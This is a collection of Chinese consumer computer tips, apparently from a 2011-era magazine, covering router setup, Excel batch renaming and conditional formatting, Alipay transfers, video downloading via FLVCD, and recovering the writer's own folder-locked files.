## 网络版软件借道回环虚拟网卡

在使用诸如“用友ERP”等网络版软件的时候，我们常常会遇到这种情况：当把服务器端和客户端都安装在同一台电脑时，即使安装有网卡，如果这台电脑没有连接网络，那么软件也无法正常运行。这时我们一般是通过安装系统自带的微软回环虚拟网卡（Microsoft Loopback Adapter）就能解决。不过在Win7中通过添加设备的方法无法完成回环虚拟网卡安装，难道Win7不再支持Loopback Adapter或手工添加设备的方式吗？非也，山人自有妙招来解决。

单击开始图标，在“运行”对话框中输入hdwwiz.exe，使用“以管理员身份运行”方式来启动Win7添加硬件向导程序。根据向导选择“安装我手动从列表选择的硬件（高级）”，在硬件列表中选择“网络适配器”，厂商选择Microsoft，并在右边网络适配器列表中选中Microsoft Loopback Adapter，完成后微软回环虚拟网卡就成功安装到电脑中，设置好相应的IP地址就能正常工作了。当然，其它非“PnP即插即用”的设备也可以用这个办法来解决。

(文/陈晓军)

## 有线加无线双层路由器共享上网

最近入手了一台WiFi版的iPad, 便想用路由器的WiFi功能来实现iPad上网。但家中的有线路由器已经布置好, 不好再更换为无线路由器。于是萌生了用无线路由器当做无线交换机的想法。那么要如何实现呢? 这里给出一种可行的方案。由于无线路由器受到距离的限制, 并且网络布线一般在装修之前已经完成, 改线很麻烦, 像我家有线路由器在客厅, 但是现在要求在卧室使用WiFi, 中间隔了2堵墙, 此时信号就会大大减弱, 甚至不稳定造成掉线。这种情况下将有线更换为无线也是没有效果的, 就可以使用这种方法在卧室加装一个无线路由器。本文的有线路由与无线路由分别以tp link R760+和水星(Mercury) MW54R为例, 有线路由器的设置方法不再阐述, 按照设置向导正常进行即可, 但需将DHCP服务器功能开启。

- 1. 路由器加交换机这种双层接法大家应该比较熟悉了, 直接从路由器的LAN口与交换机任意一个接口连接, 再将电脑网卡接口与交换机的任意一接口连接就可以实现共享上网了。但现在无线路由器中分别有WAN口和LAN口, 到底要接哪个呢? WAN口是用于路由器连接猫PPPOE拨号上网用的, 所以应该连接LAN口, 即将有线路由器的LAN口连接无线路由器的LAN口。
- 2. 但在本例中还存在一个问题, 两种路由器的网关IP是一样的, 均为192.168.1.1, 所以位于此网络上的计算机可能会错误地把包发在相同网关的无线路由器上, 然而这个无线路由器未经PPPOE拨号是无法上网的, 我们只用来当交换机用, 此时有线路由器将会把这种行为定义为APR攻击, 打开有线路由器系统日志可以看到相关记录, 结果是造成网络瘫痪并且无法正常上网, 所以我们还要进入无线路由器设置一下, 将电脑连接无线路由器LAN口, 等待本地连接可用之后, 打开IE。
- 3. 输入IP地址: 192.168.1.1, 输入路由器账号密码, 本例默认登录名: admin, 默认登录密码: admin (具体地址和账号密码参看路由器背面), 进入无线路由器管理页面。打开左侧“网络参数”, 点击“LAN口设置”, 将“IP地址”一栏修改为与有线路由器不相同的网关地址, 如输入: 192.168.0.1, 这样就可以避免两个路由器由于网关相同而冲突了。“子网掩码”一栏不变, 点击“保存”完成“LAN口设置”(若两种路由器默认网关不相同, 则此步骤可以省略)。
- 4. 接着点击“WAN口设置”, 将“WAN口连接类型”修改为“静态IP”, “IP地址”填上有线路由器DHCP服务器起始及终止IP段的任意一个IP, 如有线路由器起始IP为: 192.168.1.100, 终止IP为: 192.168.1.115, 那么这里就填上这个IP段任意一个IP地址, “网关”一栏填上有线路由器的网关(登录)IP, 本例为: 192.168.1.1, 接着再填写“DNS服务器”, 如果不知道本地的DNS服务器, 打开有线路由器管理页面, 在“运行状态”中可以看到, 前提是此时有线路由器已经能够正常上网, 点击“保存”完成“WAN口设置”。
- 5. 然后点击“DHCP服务器”, 在弹出的页面中将“DHCP服务器”一栏设置为“不启用”, 同样点击“保存”完成设置。
- 6. 最后在“无线参数”中设置开启无线功能, 为了防止别人蹭网应设置无线密码。完成了对无线路由器的设置后, 别忘了用一条网线将有线路由器的LAN口与无线路由器的LAN口相连接, 端口任选。好了, 重启一下无线路由器, 现在开始享用你的无线大餐吧。

> 这里有两个问题值得我们注意。首先, 由于我们将无线路由器的DHCP功能关闭, 所以当你要管理无线路由器的时候, 除了要将电脑直接连接无线路由器LAN口, 并且还应在“本地连接”“属性”中的“Internet协议”设置为“使用下面的IP地址”, 这里应该填写与无线路由器相同网关的IP, 如本例中我们将无线路由器网关改为了192.168.0.1, 则这里应该填上: 192.168.0.* (*为除1外任意数), 确定生效之后才能够进入无线路由器管理, 否则本地连接将一直处于“正在获取IP地址”的状态而无法进入管理。其次, 设置完成以后, iPad能够连接无线路由器并且可以正常上网, 但无论是iPad或者直接连接在有线路由器的电脑输入无线路由器地址: 192.168.0.1, 均无法进入无线路由器管理界面, 只能用电脑直接连接无线路由器LAN口进行管理设置。不知道有没有哪位读者能够解决, 或者对其通信层面上的原理进行解释。

(文/王炜)

## 大游戏引爆内存‘炸弹’

朋友三年前买了一台电脑, 配置如下: CPU: INTER CORE E4500, 内存金邦DDR2 800 1G×2, 主板七彩虹C.P35.X5, 显卡: NVIDIA GeForce 8500GT(512MB), 硬盘: 西捷SATA 160GB, 显示器: AOC210V。一直运行正常, 包括图形处理, 看电影以及电影剪辑, 听歌, 玩网络游戏(如联众)也都正常。可暑假时朋友的孩子安装了一个单机游戏‘秘密潜入’后, 游戏能显示启动画面, 进入游戏后画面却很卡, 有时干脆就不能运行, 但电脑并不死机, 可以查看进程或打开别的程序, 而且游戏中的音乐也可以正常听到, 但就是不能进行游戏, 感觉好像是显卡的显存一次放不下太多的要显示的数据, 画面停顿太厉害, 有时就黑了。

朋友采取了杀毒, 重装游戏, 重装显卡最新驱动, 重装DirectX9.0c.exe, 重装主板驱动甚至重装了操作系统都不能解决。上网查, 有说调节显示分辨率, 有说8500GT显卡游戏功能太弱, 朋友就按照网上说的情况降低了显示分辨率, 不行又更换了别的显卡, 还是不行。

无奈之下抱着电脑找到我, 说要更换主板, 看看是不是主板的问题。我打开电脑机箱, 内部基本上没有灰尘, 启动电脑后, CPU, 显卡和主板南北桥芯片温度也正常, 上网听歌, 看电影都正常, 玩小游戏聊天也没有问题, 这就奇怪了。我把原来的Windows XP换成了Windows 7, 长时间运行也正常, 没有任何错误提示。在Windows 7下安装游戏, 故障依旧。关闭电脑, 还是更换显卡, 结果一样, 难道不是显卡的问题?

‘秘密潜入’这个游戏上市比8500GT显卡要早, 所以不应该不能运行这个游戏啊! 这时我重新检查了机箱, 去掉了光驱想看看是不是电源的问题, 但开机后故障依旧。重新安装好光驱的电源, 这时发现了一个奇怪的事: 双通道内存插槽上安装的内存不一样! 刚才一直被光驱的电源线挡着没有仔细看。拔下两条内存, 发现品牌一样都为金邦1GB, 但制造工艺不一样, 一个是单面, 一个是双面。朋友说当时购机时只装了一条, 后来看内存便宜又听说内存大了组成双通道速度快, 就又加了一条, 但购买时仅注意了品牌和速度, 没有多注意别的, 而且安装后一直运行正常, 也就没有仔细研究了。

由于没有相同的内存可以更换, 所以只好先拔下一条内存, 重启电脑后故障依旧。然后换上另一条, 奇迹出现了, 游戏运行正常! 关闭电脑更换内存插槽重新进行单条内存测试, 果然那条单面的内存条有问题, 不能正常运行游戏, 而双面的内存条无论安装在哪个插槽都可正常运行。

分析: 由于电脑没有运行大一点的游戏, 再加上也没有出现如蓝屏或其它问题提示, 并且一直运行正常, 所以也就认为电脑的硬件配置没有问题, 而且在使用硬件检测软件检测时也显示为正常的2GB内存。出现画面停顿的问题时就常常想到是显卡的故障, 而忽略了其他硬件问题。而内存这种不影响一般正常运行的奇特故障平时也不多见, 由此看来, 在安装新的内存后, 安装一些耗内存的软件或游戏进行‘考验’是很有必要的。

(文/田国勇)

## 用支付宝零手续费转账到本地卡

### 支付宝1+ 支付宝2

首先, 你应该有一个支付宝账号, 我们亲切地称之为‘支付宝1’。支付宝当然要绑银行卡的啦。作为一个从初中就开始用支付宝的热血青年, 我有着8年的支付宝龄, 但由于出生于中国邮政, 我被我爹所迫选择的是邮政绿卡。不过在小额支付(单日单次5000元以下)的情况下, 完全是够用的啦。中国邮政淘宝绿卡可以绑定支付宝、财付通等, 只是可能需要到柜台办理, 有点麻烦。虽然安全性没有这个什么盾, 那个什么宝好, 但是一般来说, 在安全性能较好的支付宝下, 还是没有多大问题的, 使用起来极其方便, 网银都不用办。

注意: 最好还是给自己的主力支付宝账号开通各种安全服务, 毕竟也是免费的, 能提高账号安全性, 何乐而不为呢?

### 关联

我们在这里用‘支付宝2’关联‘支付宝1’, 在你设置银行账号的时候, 会同时进行实名认证, 我们每个人只有一个身份证, 自然两张银行卡的身份证信息都一样。

- 1. 这时就会出现‘您提交的证件号码已被另一个账户用于认证’这样的提示。
- 2. 点击‘增加关联账户’, 按提示进行输入账号密码等操作。
- 3. 关联成功。现在, 你有两个支付宝的账号啦, 有了一个通过实名认证的专用转账账号。接下来就很简单了, 我的实际情况是, 老家的邮政绿卡绑定在我的八年主力‘支付宝1’, 本地招商银行的卡绑在我的‘支付宝2’上。
- 4. 我用‘支付宝1’付款, 把老家绿卡上的生活费直接付款到‘支付宝2’上, 然后再用‘支付宝2’提现到本地的招商银行卡上。关键步骤在此, 其余输入数额什么的简单操作就不用详细叙说了。
- 5. 零手续费的转账到此完结, 附上一张胜利的果实。

> 请注意手续费的单月限制, 对我们穷学生来说, 这些限制基本谈不上, 如果谈得上, 请您绕过此文。

(文/杜鑫霖)

## Excel联手批处理 照片更名一气呵成

高考成绩骄人，领导喜上眉梢，要求制作大幅广告，将考入重点院校的学生宣传宣传，好给学校造势。按说这活计没多大难度，只是要将照片以“姓名+考入院校”的方式命名，但相机没有这么智能，几经苦思，我终于探索出Excel+批处理的方式，迅速完美地完成了任务。

启动电脑，新建一个名为“学生信息”的Excel文件，在A1列输入“姓名”，B1列输入考入院校。拍照时先在电脑上登记，登记一个拍照一个，确保登记信息和照片的一一对应。不几天，前期准备顺利完成。学生信息文件中记录了约300名学生信息，而“D:\学生照片”中也顺顺利利入驻了对应的照片。接下来，就要按顺序提取照片原名称，编写批处理文件，借助ren命令实现文件的批量更名。为实现这一目的，核心是如何快速获得批处理文件，这就是Excel的本事了。

### 第一步：dir一步获取照片名列表

提取文件名的方法很多，考虑到所有照片都在同一文件夹中，不涉及子文件夹，因此可采用最简单的方法：dir获取法。进入“D:\学生照片”文件夹，在地址栏输入cmd.exe并回车，进入DOS状态，输入以下命令：

```
dir /o:n /b *.jpg>list.txt （将当前文件夹下的JPG文件名称输入到List.txt文件中，其中“/b”表示只提取文件名称，其余的统统不要。千万不能省略，否则就有你忙的了）
```

回车片刻间，所有照片名就被按顺序保存到list.txt文件中了。

### 第二步：list.txt入住 Excel

打开学生信息Excel文件，定位到C2单元格中，然后依次点“数据→自文本”，选中list.txt文件点“打开”，跟着提示一路点“下一步”，list.txt内容就入住到C列了。

至此，数据采集的过程就全面结束了，接下来，就得看如何批量生成ren命令的内容了，这要用到Excel的CONCATENATE函数。

### 第三步：CONCATENATE自动生成ren命令

A列是学生姓名，B列是考入院校，C列是照片原名称，根据要求，我们要在D列生成ren命令内容，格式如下：

```
ren C列 A列-B列.jpg
```

当然不能一一输入，要速度，CONCATENATE正派上用场。

定位到D2单元格中，在地址栏输入公式：

```
=CONCATENATE("ren ",C2," ",A2,"-",B2,".jpg")
```

### 小提示：

CONCATENATE是Excel中的文本合并函数，可以将多个单元格内容合并成一个。当然，也可以利用它为单元格内容添加新的文本或者字符。本例实际上是综合利用了这两点：合并A列和B列，并在两者之间添加符号“-”，之后添加“.jpg”内容，然后再与C列合并，之间添加半角空格，同时在最前面添加“ren”和空格。当然，如果感觉直接输入困难，可以依次点“公式→文本→CONCATENATE”打开提示框，根据提示设置。

输入公式后回车，瞧，D2单元格中即出现了想要的结果“ren DSCF5086.JPG 王嘉宾-西安建筑科技大学.jpg”。现在，只要通过填充手柄就可以自动生成以下各列的ren命令了。

### 第四步：批处理一步更名

复制D列内容，在“D:\学生照片”文件夹下一文本文件，粘贴内容到其中，保存该文件为bat格式，双击，大功告成，300张照片片刻间按要求更名。

(文/贺拴运)


## 你的电脑屏幕尺子准吗

收到淘得的称心手机，想验证一下手机屏幕的大小，于是下载了电脑屏幕尺子工具，发现其竟比介绍的尺寸大多了，难道自己淘到了便宜？但经试验发现几乎所有的电脑屏幕尺子工具软件都存在这样的问题，主要原因是由于电脑屏幕的分辨率不同造成的显示刻度尺寸不同。

我找到了一个在线标准屏幕尺子，它的最大特点是当电脑屏幕的分辨率发生变化时，可使用实物来校准尺子刻度，从而避免软件类电脑屏幕尺子测量不准确的尴尬。

1.  打开在线尺子网页 (http://www.sylens.net/ruler/index_zh.html)，从上方“标准”中选择一个手头有的东西，这儿提供有多种纸张、多国纸币、信用卡和光盘（标准和迷你两种）等标准物品，如我手头有标准光盘（直径是12厘米），选择标准光盘后，将一张标准尺寸的光盘放在屏幕上的对应位置，使用两侧的“<< < > >>”按钮调节光盘图片大小，使得实物与图片的宽度相同后，点击“完成”。
2.  校准完成后，在网页中显示出标准的尺子，再从右上角选择单位为inch（英寸），此时尺子的刻度就以英寸显示，这下我就可以放心地测量手机的屏幕尺寸了。先用线或其它东西量出手机屏幕对角线，再用量得的长度与网页标准尺子进行对比。

### 小提示：

以后当电脑屏幕分辨率发生变化时，只需简单校准一下尺子，就可以准确测量物品尺寸了。如果需要将标准的尺子打印出来，制作成软尺随时使用，也很方便。

将标准的尺子保存成图片，使用Photoshop软件无缩放打印，或插入Word中再点击图片工具中的“重设图片”按钮后打印，就可以得到可折叠并随身携带的软尺了。

(文/王彦博)


## 查询银行卡开户网点名称既快又准

在用网银跨行汇款时，必须得知道对方银行卡的开户行网点名称（即XX银行XX分行XX支行）才可以，但有时对方提供的却是开户行网点的具体地址，无法执行正常的跨行汇款操作。若再打电话让对方查询开户行网点名称就很耽误时间了。其实，只要有银行网点的具体地址，利用网络搜索，同样可以迅速查到与之对应的开户行网点名称。

### 第一步：搜索银行卡开户网点

打开百度搜索的首页 (http://www.baidu.com/)，在搜索框中输入需要搜索的银行卡所属银行的名称及该银行卡的具体开户地址（两者需用一个空格隔开，如“招商银行 北京市海淀区双清路清华紫光大厦”），回车之后就可以看到符合搜索条件的N多网页记录，随意打开几个搜索结果，就能够看到其名称是“招商银行清华园支行”。

### 第二步：核对银行卡开户网点

那么这个搜索结果是否正确呢？毕竟汇款是个大事，一旦出现错误就会导致遭受重大的经济损失。我们可以通过百度地图来反向验证一下上述搜索结果是否正确。打开百度地图首页 (http://map.baidu.com/)，单击“更换城市”链接，按照提示切换到北京市，在搜索框中输入“招商银行清华园支行”。单击“百度一下”就可以搜索到该银行网点所在的地址了，正是“海淀区清华紫光大厦”。这样就可以放心地给对方汇款了。

(文/新玲的窗户)


## 座位安排讲究多 找个助手替你做

一说开会，负责座位安排的小张就头痛不已。因为座位安排看似简单，实际上挺有讲究。比如有的人身材矮小或视力不好，希望安排到靠前的位置；有的人与另一位不对眼，必须分开就座。以往凭手工安排难以考虑周全，为此闹过不少笑话，那么这次会议，小张能顺利解决座位安排问题吗？聪明的小张利用Seating Chart Maker（简称SCM，下载地址：http://scmaker.webs.com/）这款免费软件，通过短短五个步骤，就轻轻松松解决了难题。

### 第一步：添加人员名单。

运行该软件后，界面首先自动切换到Class List标签，进入添加人员名单步骤，在Name to add文字下方输入人员名称后，单击ADD STUDENT按钮或按下回车键完成添加。与此类似添加其他人员，添加的人员将出现在Class List列表中。

### 第二步：设置分隔对象。

人员添加完毕，切换到Keep Away List标签，按住键盘上的Ctrl键，在人员列表中选一组彼此不对眼、需要分隔开的人员名称，再单击KEEP AWAY FROM EACH OTHER按钮，将其添加到界面右侧的KEEP AWAY LIST列表中，它就会在安排的时候将其分开。大家可按需要，添加多组分隔名单。

### 第三步：指定前排人员。

切换到Front Row List标签，在左侧的人员列表中选中视力不好或身材矮小、需要在第一排就座的人员名称，单击Place in Front of Class按钮，选中的人员便被添加到Required Kids in Front列表。需要注意的是，前排人员的数量不能超过会议室座位的列数。

### 第四步：规划教室布局。

切换到Class Layout标签，根据会议室的座位摆放情况，单击Number of Front Row Seats下方的上下箭头，把文本框中的数字设置为教室中座位的列数，它就将根据与会人员总数自动计算出座位行数，并把有效座位以绿色块的形式显示出来。

### 第五步：查看安排结果。

切换到Search标签，单击Find First Arrangement按钮，它便把最合理的安排结果展示在界面，单击NEXT按钮可以查看更多安排结果。倘若对它的自动安排不满意，也可以在列表中选中某人，再单击另一人进行调换，调换后别忘了单击Check My Arrangement按钮查看一下自己的修改是否合理。如果显示为GOOD ARRANGEMENT，那就表示一切OK。

### 第六步：打印保存。

对软件的安排满意后，单击View and Print Chart按钮，在打开的对话框中单击PRINT，将会议座位的安排方案打印，或单击界面上方的SAVE CLASS SETTINGS按钮，把安排方案保存即可。

(文/孙敏)


## U盘自动备份

1.  安装完毕后，只需指定源目录与目标目录就可以了。第一次设置时，点击两侧“浏览”按钮，选定需要同步的源文件夹与目标文件夹，点击“分析”按钮，它将计算出需要同步的文件并列出来。当同步文件准备就绪之后，点击“同步”按钮，U盘备份和同步工作就完成了。
2.  设置完成后，如果每次都再分析一次的话，比较麻烦。该软件设计了自动执行功能，可将U盘备份和同步设置成定时任务，自动执行，避免了繁琐的过程。选择菜单“任务→选项”，在打开的选项设置窗口中点击“自动”标签，即可选择你所需要的自动操作功能。可以在该软件启动时，也可以在插入U盘时，非常方便。

（文/王如）


## 雁过不留痕 IP地址不泄露

我们上网有时并不想暴露自己真实的IP地址，有没有办法保护自己的隐私呢？用Hotspot Shield Launch这个VPN代理软件完全可以做到。使用该软件可以不用任何设置就能正常工作，包括浏览网页、QQ聊天等。
到http://www.susuxiaozhan.com/hotspot将其下载到电脑中，双击运行安装程序，要注意选择正确的语言。另外，若不想在浏览器中生成工具栏的话，请去掉“包括Hotspot Shield社区工具栏（推荐）”前的钩。安装完成后，双击桌面上的相应图标即可运行，它会自动打开浏览器连接远程服务器，同时在系统托盘区会有一个红色的小盾牌标志，等一会儿便提示连接成功，这时系统托盘区的小盾牌也会变成绿色，代表当前电脑已经通过VPN代理接入互联网了。此时查一下你的IP地址，会显示在美国或加拿大，这样你就再也不用担心自己的IP地址会泄露了。

（文/陈晓军）


## 调整网络连接的优先顺序

小周的办公室可以使用有线网络，也可以使用无线网络，出于工作需要，他的笔记本电脑一般会同时连接两个网络，不过Windows 7默认是自动选择无线网络，如果需要使用有线网络，那么必须手工断开无线网络，或者关闭无线开关，但重启之后仍然会自动选择无线网络。按照下面的方法，可以重新调整访问网络服务的顺序。
从控制面板依次打开“网络和共享中心”窗口，从左侧导航栏选择“更改适配器设置”，随后会打开“网络连接”窗口，如果有线网络没有连接，那么这里的“本地连接”图标会显示“网络电缆被拔出”的信息。按下Alt键激活菜单栏，从“高级”菜单下打开“高级设置”对话框，切换到“适配器和绑定”对话框，在列表框选择“本地连接”，单击右侧的箭头将其位置调整至最顶端，保存之后即可生效。以后无论是如何连接网络，笔记本电脑都会优先连接有线网络。

（文/林丽华）


## 本周有谁过生日 给点颜色全了然

1.  启动Excel 2007新建一工作表，在A1到H1单元格分别输入序号、姓名、性别、出生日期、职称、学历、所属科室、获奖情况等字段作为列标题，并设置好字号、字体等属性。然后按照各列的列标题把教职工的基本情况输入，填好表格。
2.  选中A2:H21单元格区域（在此例中教职工人数为20人），在“开始”选项卡单击“样式”组中的“条件格式”，在弹出的下拉菜单中选择“管理规则”。
3.  在打开的“条件格式规则管理器”对话框中单击“新建规则”，在“选择规则类型”列表中选择“使用公式确定要设置格式的单元格”，在“编辑规则说明”下输入公式“=AND(DATE(YEAR(TODAY()),MONTH($D2),DAY($D2))-TODAY()>=0,DATE(YEAR(TODAY()),MONTH($D2),DAY($D2))-TODAY()<=7)”，单击“格式”，在打开的“设置单元格格式”对话框中选择一种颜色，比如蓝色。
4.  重复上面的步骤新建一格式规则，只是把公式改为“=AND(DATE(YEAR(TODAY()),MONTH($D2),DAY($D2))-TODAY()=0)”，把颜色设置为红色。
5.  经过上面的设置，如果D列中单元格的值在未来7天内，则字体颜色为蓝色，如果D列中单元格的值等于系统日期，则字体颜色为红色。
6.  在“开始”选项卡下单击“编辑”组中的“排序和筛选”，选择“自定义排序”，在打开的“排序”对话框中单击“添加条件”按钮，在“主要关键字”的下拉菜单中选择“出生日期”，在“排序依据”的下拉菜单中选择“字体颜色”，在“次序”的下拉菜单中选择“红色”。
7.  接着再添加一条件，把“次序”中的颜色设置为“蓝色”，单击“确定”退出对话框。
8.  现在我们可以发现，在列表中凡是当天生日的名单已经出现在表格的最上面，接着是在未来7天内要过生日的同事名单。这样一来，王老师再查找谁生日的时候就轻松多了。

（文/刘玉岗）


## 加密密码忘了 安全卫士替您找回文件

1.  我将系统从XP升级到Windows 7，并将一些重要文件用“文件夹看门狗”加密起来，可近来需要使用里面的文件时，发现设置的密码忘记了，怎么也解密不了，幸好我有备份，可是这个加密文件夹用常规方法删除不了，于是用360安全卫士的强力删除功能将其删除，却意外地找回了加密文件。
2.  在该加密文件夹上右键点击，选择“使用360强力删除”命令，打开“文件粉碎机”窗口，勾选加密文件夹，没有勾选下方的“防止恢复”或“防止文件再生”选项，直接点击“粉碎文件”按钮，在弹出的提示框中点“确定”，提示粉碎成功。
3.  小提示：如果勾选“防止恢复”或“防止文件再生”选项后再点击“粉碎文件”按钮，就会彻底将该加密文件夹下的内容粉碎掉。
4.  经多次验证发现使用该方法简单方便，无需另下载工具，另外在XP系统下试用这一方法，发现该系统无法正常打开其中的特殊文件夹“system data...”，所以不能在图形界面下将解密后的内容移出来，只有在命令行模式下使用DOS命令处理。
5.  网上流传一种使用WinRAR来打开“文件夹看门狗”加密的文件夹，试用该方法发现虽然可以查看到加密文件，但文件提出后面目全非，无法使用。
6.  查看后发现该加密文件夹仍存在，好奇地一层层打开它们，没想到奇迹出现了，在最后一个文件夹下所有加密内容完好无损地显示出来了，赶紧将它们移到其它位置。
7.  原来360安全卫士并没有将该加密文件夹彻底删除掉，而是将其中的加密内容全部解密出来，只不过其文件夹层数很多，而且文件夹名称也较特殊（G:\资料\DirRecycler\101011000\101011010\101011020\1011030\101011040\system data...\dogtmpdir）。

（文/青山漫步）


## 播放器内存小 压缩MP3腾空间

1.  很多朋友都把MP3放在手机或者播放器里随时听歌，可是现在网上下载的MP3一般都有几MB，放上100多首，1GB的内存就没了，想要多装一些歌曲，去买一个大一点的内存卡又觉得浪费钱，真矛盾！不过有一种解决方法，就是直接把MP3文件压缩下来，腾出更多空间。这种方法，对于那些跟我一样对音质要求不太高的朋友挺管用的。
2.  首先打开MP3Resizer.exe，这是未注册版的，但是功能跟注册版的一样，而且我用了一年，试用时间还是剩下30天，点击“试用”，添加歌曲（可以一次添加很多歌曲，还可以把文件拖进去），开始工作。
3.  点击“设置”打开设置对话框，可以设置输出文件夹等选项，例如输出文件名，选择“输出文件→扩展名”，勾选“忽略lite扩展名”，则按源文件名输出，否则输出的文件名就添加“lite”后缀。
4.  一切设置完后，点击“调整大小”就开始压缩了（压缩过程可能比较久，可以先做一下别的事情），在“调整大小”的上面会显示源文件大小和输出文件大小，一对比就可以知道这款软件的实用性了。
5.  小提示：这种方法从本质上来讲是减少MP3的比特率，可是实际上MP3压缩后音质跟源文件没多大区别，建议不要选择太小的比特率，否则会压缩失败，我一般设置为80kbit。
6.  在压缩过程中，可能会有几首歌曲会失败，这时候记得要点击“确定”，压缩工作才能继续下去，那么这几首歌就放弃吧。
7.  压缩完成后，记得查看完成的文件大小，如果是几KB或者几十KB的话（可以通过点右键选“查看→详细信息”，右键选“排列图标→大小”快速寻找），那就可以断定它们压缩失败了，也放弃吧！一般文件压缩完之后有2MB到4MB左右。
8.  压缩结果：源文件193个，大小1.02GB，压缩后430MB，失败文件14个。
9.  怎么样？是不是空出很多空间？
10. 文件下载地址：http://115.com/file/bhibdjwi 提取码：bhibdjwi

（文/原健剑）


## 一秒钟获得下载地址 标清高清任你选

大家看视频的地方很多，比如优酷、土豆网、奇艺网、酷6等，但是有时我们希望把上面的视频保存到本地，那就需要找到片源的真实地址才可以，当然利用一些下载资源探测工具是个不错的方法，但是太过麻烦了，有没有更便捷的方法呢？

### 一、真实地址一“xia”就有

现在很少有网站对视频源提供直接的下载地址，一般都是经过加密处理的，所以要下这样的视频就需要安装专门的真实地址解析软件。其实想获取主流视频网站的真实地址不用这么麻烦，我们可以利用FLVCD.COM这个视频地址解析引擎来快速获取正在播放的影片的下载地址。

比如在IE中输入http://v.youku.com/v_show/id_XMzAyNDYzNjUy.html，打开页面是优酷网热播的《步步惊心》，点击播放第一集，在播放开始后你把上述的播放地址改为“http://v.xiayouku.com/v_show/id_XMzAyNDYzNjUy.html”(youku域名增加一个“xia”字节)，在新打开的页面中就可以看到正在播放的影片的下载地址了。

很多视频网站针对相同的片源会提供不同的清晰度，以方便不同宽带速度的用户，如果你要解析的片源有标清和高清两种清晰度，那么FLVCD.COM提供的解析引擎默认打开的是标清模式的下载地址，那么解析后弹出界面中会提供有“高清模式解析”按钮，点击该按钮就可以获得高清的片源地址了。

小提示：

-   其他视频网站也可以用类似的方法获得视频下载地址，支持的网站以及解析规则请参考http://www.flvcd.com/url.php
-   如果是内嵌在一些社交网站中的视频，要提取原网站的视频地址也很简单，只要在视频播放中点击“全屏”的按钮即可弹出原站，然后修改弹出页面的地址即可

### 二、批量下载后自动合并被分割的片源

很多网站为了加快片源的检索速度，会把视频切割成多个小片段，比如上面的案例就是如此，这种情况下连接被解析后得到好几个片段的下载地址，下载回来只能一个片段一个片段播放，不是很方便。还好，该解析引擎提供了一个叫“硕鼠”的下载工具，通过该工具可以实现批量下载后自动合并被分割的片源，首先到http://download.flvcd.com下载并安装“硕鼠”下载工具(注意安装完成后，重启IE方可使用)。

1.  安装该工具后，在域名解析的页面点击“用硕鼠下载该视频”按钮，在弹出的页面中点击“硕鼠专用链下载”，然后在弹出的选择框中选择“用独立窗口的硕鼠Touch下载”。
2.  待软件分析下载地址后会自动启动“硕鼠”下载软件，在“任务属性”的对话框中勾选“自动合并分段视频”和“自动合并后删除原文件”，这样下载回来的视频就是完整的了。

### 三、合并下载回来的视频片段

如果你已经下载了很多被分割的视频，那么你可以用“硕鼠合并”工具来合并这些视频，在浏览器中打开http://download.flvcd.com/setup/bigrats_bing.exe，下载并安装“硕鼠合并”工具。

1.  待安装完成后启动该工具，把需要合并的视频文件拖拽到主界面文件列表中，或点击“导入FLV或MP4文件”按钮加入多个视频文件。需要注意的是，目前该工具仅支持FLV和MP4这两种视频格式，而且要注意合并视频文件的先后顺序，如果顺序不对，就可以用“上移”和“下移”两个按钮来调整合并的先后顺序。
2.  待文件全部加入后，可以点击“设定”按钮，输入合并后的文件名，也可以不设定，直接使用默认的文件名，最后点击“开始合并”按钮即可开始合并。

### 四、专辑批量下载我很行

很多时候我们希望将一部连续剧全部下载完再看，一个一个地下载很不方便，我们可以分析视频专辑的下载链接，然后批量下载。

1.  找到您需要的视频或专辑页面，比如，现在我们想看最近的热播剧《步步惊心》，可以用优酷的专辑搜索，不过一般都能出现很多专辑供选择，选择一个你要的专辑，点右键“复制快捷方式”将其页面地址复制下来。
2.  访问http://www.flvcd.com，将专辑地址粘贴到搜索框里，然后点“开始GO”按钮，稍等片刻，待解析引擎获取专辑中所有视频的下载地址后，点击顶部的“用硕鼠批量下载本专辑”，接着选择一个合适的下载方式即可。

小提示：

如果视频网站还有高清的版本，链接解析页面还会提供一个“高清版解析”的入口，点击该入口就可以获得高清版的下载链接了。

(文/RILUO)


## 一键批量制作学生报名条

学生的学业考试网上报名结束后， 自动生成学生的报名表为EXCEL文件， 表格上一个学生的信息占一行， 排列紧密， 有好几千行。

接下来， 相关老师要将它们打印出来， 一个一个发给学生。这时， 如果简单地排版打印出来， 分发给学生， 不但裁切麻烦， 而且由于纸条特别小， 又没有表头， 学生容易弄丢， 会给以后使用造成麻烦。

不是没有解决问题的办法， 没有表头， 就给每一行学生报名信息前加上， 并让表格上学生信息间隔一些距离， 这样打印出来， 不但好裁切， 而且美观大气， 也方便学生保存。

但如果手工添加， 会很累人， 因为一个年级的学生就有好几百！

我想到了制作工资条的工具， 从网上下载“EXCEL百宝箱4.0版”， 发现它的这一功能没有任何限制， 很快就解决了上述问题。

小提示：

EXCEL百宝箱4.0有两种版本: EXCEL百宝箱4.0简体 for 2007 ( http://ishare.iask.sina.com.cn/f/7845254.html?from=like ), EXCEL百宝箱4.0简体 for 2003 ( http://www.deepin.org/thread-834344-1-1.html ) 它们操作方法相似, 这儿以2007版为例

该工具是一个宏工具(扩展名为.xlam的文件), 双击它就会打开Excel2007, 同时会出一个“Microsoft Office Excel 安全声明”对话框, 点击其上的“启用宏”按钮, 即可进入Excel2007编辑界面(或将其拖入Excel2007界面中, 也可启用该工具), 这时会在工具栏上多出了一个“百宝箱[第4版]”标签, 单击切换到它的工具菜单界面。

为方便学生填写姓名等信息, 再增加两列并调整行高、字号等, 最后加好表头, 选择“设计工资条”中的“制作工资条”项, 在弹出的“确定工资条头”对话框中, 指定标题总行数, 单击“确定”。

马上就会为每位学生生成规格的报名条, 为方便裁切生成后, 还会弹出一个“间距”对话框, 询问你是否设定成绩单之间的间距, 单击“是”按钮后, 在出现的“提示”对话框中输入各报名条间的间距数值, 即可按需要设置好间距。

小提示：

如果发现生成的效果不好, 只需选择“删除工资条”项, 即可还原回来, 再次设置制作即可

链接：

```
百宝箱4.0简体 for 2007 EXCEL
http://ishare.iask.sina.com.cn/f/7845254.html?from=like
百宝箱4.0简体 for 2003 EXCEL
http://www.deepin.org/thread-834344-1-1.html
```

(文/王彦博)


## 高版本Excel密码保护 WinRAR来解除

